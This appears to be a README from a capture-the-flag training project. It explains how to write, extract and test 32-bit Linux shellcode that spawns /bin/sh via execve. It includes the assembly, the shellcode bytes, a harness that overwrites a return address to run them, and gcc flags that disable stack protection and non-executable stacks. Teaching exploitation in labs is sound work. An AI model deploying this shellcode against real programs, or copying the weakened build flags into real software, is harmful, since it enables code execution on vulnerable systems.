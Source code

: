# Writing 32bit shellcode for 64bit Linux
This has been the most time consuming part of building this CTF. Writing
shellcode is out-of-scope for this training, but there is value in learning to
inject shellcode.

## Call execve with C using in-line ASM
I'm skipping some steps here for brevity, but by compiling and dissasembling a
simple C program calling `execve()`, the instructions and machine code can be
studied. Below is some pre-written ASM to write

```
main () {
__asm__(
    "       jmp mcall           \n\t" // jump trick to load "/bin/sh" string
    "ajmp:  pop %ebx            \n\t" // pop "/bin/sh" into ebx
    "       xor %eax, %eax      \n\t" // NULL out eax
    "       mov %al,0x7(%ebx)   \n\t" // NULL terminate "/bin/sh" string
    "       mov %ebx,0x8(%ebx)  \n\t" // set next 4 bytes to "/bin/sh" address
    "       mov %eax,0xc(%ebx)  \n\t" // set next 4 bytes to NULL
    "       mov $0xb,%al        \n\t" // set eax to syscall 11, execve
    "       lea 0x8(%ebx),%ecx  \n\t" // load str address into ecx
    "       lea 0xc(%ebx),%edx  \n\t" // load NULL into edx
    "       int $0x80           \n\t" // call execve syscall
    "mcall: call ajmp           \n\t"
    "       .string \"/bin/sh\""
);
}
```

This is compiled with `gcc -static` to include the execve() library in the
compiled program.

## Extracting shellcode from compiled program
Running `objdump -d [binary.exe] | grep -A40 main.: | less` should isolate the
machine instructions that we are looking for. Specifically, the shellcode we
need starts with `jmp mcall` and ends with `call ajmp`.

This is the shellcode I compiled on my machine:

```
\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c
\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff
\xff/bin/sh/XAAAABBBB
```
The trailing string is necessary so the memory we need to assign (address and
NULL bytes) will be allocated.

## Testing shellcode
This program is the simplest way I've found to test shellcode:
```
/* Define shellcode array */
char sc[] =
    "\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c"
    "\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff"
    "\xff/bin/sh/XAAAABBBB";

main() {
    /* Pointer for return address */
    int *ret;

    /* Add 2 * 4bytes (size of int) to ret, so it points at main's return addr */
    ret = (int *)&ret+2;

    /* Overwrite the value of ret (main's ret addr) with a pointer sc array */
    *ret = (int)sc;
}

```

The following gcc flags are used when compiling 'victim' binaries to enable
basic exploits, and reduce complexity for students:
- `-m32`, compile as 32bit to shorten addresses
- `-mpreferred-stack-boundary=2`, align stack frames on 4-byte boundaries
- `-fno-stack-protector`, remove the stack canary
- `-z execstack`, disable no-execute bit on stack
